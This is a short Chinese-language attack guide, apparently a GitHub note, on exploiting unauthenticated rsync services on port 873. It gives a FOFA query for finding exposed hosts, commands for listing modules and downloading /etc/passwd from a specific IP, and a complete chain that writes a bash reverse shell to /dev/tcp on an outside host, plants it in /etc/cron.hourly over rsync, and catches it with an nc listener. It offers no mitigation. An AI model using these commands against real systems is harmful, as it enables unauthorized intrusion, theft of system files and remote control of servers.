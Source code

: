 rsync是Linux上类似于一个ftp服务，用于备份文件，端口873。fofa：prot="873"

linux一般带有rsync命令
```
rsync rsync://47.94.236.117:873/
```
如果可以无需输入密码直接连接上，就是未授权访问。
```
rsync rsync://47.94.236.117:873/src 
查看linux文件目录

rsync rsync://47.94.236.117:873/src/etc/passwd ./
下载文件到当前目录
```
借助Linux默认计划任务调用/etc/cron.hourly，利用rsync连接覆盖
```
1、创建一个nc文件，内容：
#!/bin/bash
/bin/bash -i >& /dev/tcp/47.94.236.117/3333 0>&1
2、赋予执行权限：
chmod +x nc

3、上传文件覆盖定时任务目录下
rsync -av nc rsync://47.94.236.117:873/src/etc/cron.hourly

4、进行nc 监听相应的端口
nc -lvnp 3333
```